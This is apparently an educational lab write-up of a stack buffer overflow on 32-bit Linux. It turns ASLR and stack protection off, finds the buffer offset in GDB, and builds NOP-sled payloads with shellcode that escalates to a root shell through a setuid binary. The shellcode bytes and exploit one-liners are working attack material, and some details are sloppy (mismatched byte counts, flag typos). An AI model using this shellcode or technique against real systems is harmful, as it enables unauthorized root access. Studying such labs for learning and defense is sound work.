 # Stack based buffer-overflow on Cent OS(or any x84 linux OS)

Stack grows from high address to low address (while buffer grows from low - high address) 

Vuln.c is a c program that has a function strcopy (buf, name) that will allow more read of bytes than the buffer size (100) from the second argument.

```python
  void func(char *name){
    char buf[100];
    strcpy(buf, name); // The following statement has a buffer overflow problem
    printf("Welcome %s\n", buf);
  }
```
The function strcpy() does not check whether the boundary of buf[] has reached. It simply copies the contents from name to buffer[] and only stops when seeing the end-of-string character ‘\0’. If the string pointed by buf has more than 100 chars, contents in the memory above buf [] will be overwritten by the characters at the end of name.  So, this leads to stack-based buffer overflow and we can overwrite anything that can come after that buffer. Thus, we know the vulnerability and we can prepare an exploit.

<b>Address space layout randomization (ASLR)</b> causes the addresses of the stack to be randomized. This causes a lot of difficulty in predicting addresses while exploitation. As ASLR is disabled we are sure that no matter how many times the binary is run, the address of buf will not change. Thus, ASLR is turned off on root first by the command:
```python
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

•	Vuln.c is compiled in root using: 
```python
gcc vuln.c -o vuln -fno-stackprotector -z execstack
```
-g tells GCC to add extra information for GDB

-fno-stackprotector is a flag to turn off stack protection mechanism

-z execstack makes the vuln file stack executable

•	I set permission of the vuln file as an executable binary that is owned by root, has the suid bit set to be user executable, and is vulnerable to buffer overflow. Mainly, it is set like this for debugging by the other user in gdb( GNU debugger).

# Procedures in GDB:
DO THESE PROCEDURES BELOW BY ANY OTHER USER THAN ROOT TO GAIN ROOT SHELL...

<b>a. Find out where the start of the buffer is in memory: </b>

```python
(gdb) print $ebp
$1 = (void *) 0xbfffeb38
(gdb) print $ebp - 0x6c
$2 = (void *) 0xbfffeacc
(gdb) quit
A debugging session is active.
```

 buf lies at ebp - 0x6c.
 0x6c is 108(100 + framept(4-current+4-prev) in decimal, Disassemble main method and it will show dump of registers. 
 Look for the part where is function call: ebp is the base of stack pointer which I will use instead of $esp. However, EBP is a pointer to the top of the stack when the func() is first called. So, I thought this as offset bytes before.

print $ebp - 0x6c will give start of the buffer.

<b>b. Fill the register with appropriate size NOP (X90)</b>

We fill the first 40 bytes with NOP instructions, constructing a NOP Sled. It makes the processor jump to the address of buf (taken from gdb’s output) minus x bytes to get somewhere in the middle of the NOP sled.

Start of buffer: 0xbfffeacc - some bytes(172- ac in hex)... 0xbfffea20(roughly I used this arbitrary bytes to get somewhere in the middle of the NOP sled)  

[ Intel CPU’ we have endian structure: \x20\xea\xff\xbf ]

The reason for inserting a NOP sled before the shellcode is that now we can transfer execution flow to anyplace within these 40 bytes. The processor will keep on executing the NOP instructions until it finds the shellcode. We need not know the exact address of the shellcode. This takes care of the problem of not knowing the address of buf exactly and increases chances of getting into our shell code.

<b>c. We can fill the rest 47 (112 - 25 - 40) bytes with random data, say the ‘A’ character. </b>

This is a part to play around & 47 As might be overestimate...And return address starts after the first 112 bytes of buf. 108 +4( roughly because I ran the debugger with 104 As)
 
 Final payload structure: [40 bytes of NOP - sled] [25 bytes of shellcode] [47 times ‘A’ will occupy 49 bytes] [4 bytes pointing in the middle of the NOP - sled: 0xbfffea20]

Prepared 25 byte long shell code which tells VM to launch a shell: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*37 + "\x20\xea\xff\xbf"')
```
( 37 As was the right amount! )

Note that above part have code execution but not root shell access. It happens due to the protection in /bin/bash. We remove the restriction by:
setuid(0) + setgid(0) + execve("/bin/sh", ["/bin/sh", NULL])
Thus, we have 37 byte shell code to gain root access:

\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*27 + "\x20\xea\xff\xbf"')
Welcome ????????????????????????????????????????jX1?̀j.XS̀1?j
                                                           XRh//shh/bin??RS??̀AAAAAAAAAAAAAAAAAAAAAAAAAAA
sh-3.2# whoami
root
```

